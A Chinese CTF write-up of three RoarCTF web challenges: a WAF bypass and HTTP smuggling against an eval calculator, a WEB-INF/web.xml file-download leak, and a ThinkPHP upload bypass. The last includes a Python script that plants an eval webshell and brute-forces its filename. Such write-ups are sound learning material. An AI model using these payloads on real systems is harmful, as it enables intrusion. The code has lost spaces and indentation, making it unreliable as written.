




#写在前面，很多知识都不会，但在慢慢学习过程中积累，下面记录一下Roarctf web 题解，学习一手新知识
easy_calc
看了一下页面可以计算式子，猜测后台是eval函数，看了下网络看经过哪些请求，发现请求了一个请求网址calc.php?num=1，于是访问calc.php，看到了源码

是一个正则匹配，匹配到测试字符则退出，否则eval执行，当时我发现了这个，看了一下，输了phpinfo();发现是403，而之前页面源码告诉了有waf，然后不会做，这里附个链接 传送门 发现可以利用PHP的字符串解析特性Bypass，所以传参加一个空格即可绕过

看了disable_functions发现该禁的基本上都禁了，之后其实挺简单的，读文件就行，注意之前的正则，这里用ascii编码绕过
看别人的writeup还有一种写法是http走私附个链接 传送门 大概就是用CL发送一个请求让服务器两次处理
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| GET /calc.php?num=phpinfo(); HTTP/1.1
Host: node3.buuoj.cn:28890
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*
|
easy_java
这道题打开是一个登录框，考点的java web，点开登录界面的help，发现一个download，可以任意文件下载，利用WEB-INF/web.xml泄露，读取flag。
1
2
3
4
5
6
7
| WEB-INF主要包含一下文件或目录：
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
|


找到flag文件的关键位置，然后读这个文件，有段base64编码，解码就是flag。
Simple Upload
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
| <?php
namespace Home\Controller;
useThink\Controller;
classIndexControllerextendsController
{
publicfunctionindex()
{
show_source(__FILE__);
}
publicfunctionupload()
{
$uploadFile=$_FILES['file'] ;
if (strstr(strtolower($uploadFile['name']), ".php") ) {
return false;
}
$upload=new\Think\Upload();
$upload->maxSize =4096 ;
$upload->allowExts =array('jpg', 'gif', 'png', 'jpeg');
$upload->rootPath='./Public/Uploads/';
$upload->savePath='';
$info=$upload->upload() ;
if(!$info) {
$this->error($upload->getError());
return;
}else{
$url=__ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
echo json_encode(array("url"=>$url,"success"=>1));
}
}
}
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
| import requests
url = "http://1a79e33d-c12c-48e5-b33c-48345ac7056f.node3.buuoj.cn/"
path = url + "/index.php/home/index/upload"
files = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)
t1 = int(t1, 16)
print (t1)
j = t1
while True:
path = url + "/Public/Uploads/2019-11-04/%s.php" % hex(j)[2:-1]
try:
r = requests.get(path, timeout=1)
except:
continue
if r.status_code != 404:
print (path)
print (r.text)
break
print (j, hex(j)[2:-1], r.status_code)
j -= 1
|